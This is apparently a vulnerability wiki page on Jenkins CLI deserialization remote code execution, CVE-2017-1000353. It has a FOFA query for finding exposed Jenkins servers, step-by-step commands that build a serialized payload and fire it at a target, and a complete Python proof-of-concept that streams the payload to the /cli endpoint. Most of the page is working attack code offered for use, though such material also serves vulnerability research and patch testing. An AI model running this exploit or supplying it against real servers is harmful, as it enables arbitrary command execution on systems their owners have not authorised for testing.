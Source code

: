 ```yaml
---
Title: Jenkins CI Remote Code Execution Vulnerability CVE-2017-1000353
---
```


# Jenkins CI Remote Code Execution Vulnerability CVE-2017-1000353

## Vulnerability Description

Attackers can transfer serialized Java SignedObject objects to the remote processing-based Jenkins CLI, which will eventually lead to deserialization, thereby bypassing the existing blacklist-based protection mechanism. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jenkins</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629513094370-fcc9d9e0-e71c-4e95-a197-b24f0bb85f2f-20220308154434574.png)


</a-alert>

<br/>

Generate `jenkins_poc.ser`

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629514273598-a151eaba-8a4e-4070-b274-caaedef61293.png)



Execute using Python script command

`https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py`

```python
python3 jenkins.py https://xxx.xxx.xxx.xxx:8080 jenkins_poc.ser
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629514591067-fd7562de-73c4-4600-b071-459df7843238.png)

Successfully generated

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629514953277-01a113d9-3d07-4656-921b-0e80bcd712b9.png)

## Vulnerability POC

```python
import urllib
import sys
import requests
import uuid
import threading
import time
import gzip
import urllib3
import zlib

proxies = {
# 'http': 'https://127.0.0.1:8085',
# 'https': 'https://127.0.0.1:8090',
}

URL = '%s/cli' % sys.argv[1].rstrip('/')

PREAMLE = b'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
PROTO = b'\x00\x00\x00\x00'

with open(sys.argv[2], "rb") as f:
    FILE_SER = f.read()

def download(url, session):

    headers = {'Side' : 'download'}
    headers['Content-type'] = 'application/x-www-form-urlencoded'
    headers['Session'] = session
    headers['Transfer-Encoding'] = 'chunked'
    r = requests.post(url, data=null_payload(), headers=headers, proxies=proxies, stream=True, verify=False)
    print(r.content)


def upload(url, session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding'] = None
    r = requests.post(url,data=data,headers=headers,proxies=proxies, verify=False)


def upload_chunked(url,session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding']= None
    headers['Transfer-Encoding'] = 'chunked'
    headers['Cache-Control'] = 'no-cache'

    r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies, verify=False)


def null_payload():
    yield b" "

def create_payload():
    payload = PREAMLE + PROTO + FILE_SER

    return payload

def create_payload_chunked():
    yield PREAMLE
    yield PROTO
    yield FILE_SER

def main():
    print("start")

    session = str(uuid.uuid4())

    t = threading.Thread(target=download, args=(URL, session))
    t.start()
    
    time.sleep(2)
    print("pwn")
    #upload(URL, session, create_payload())

    upload_chunked(URL, session, "asdf")

if __name__ == "__main__":
    main()

```
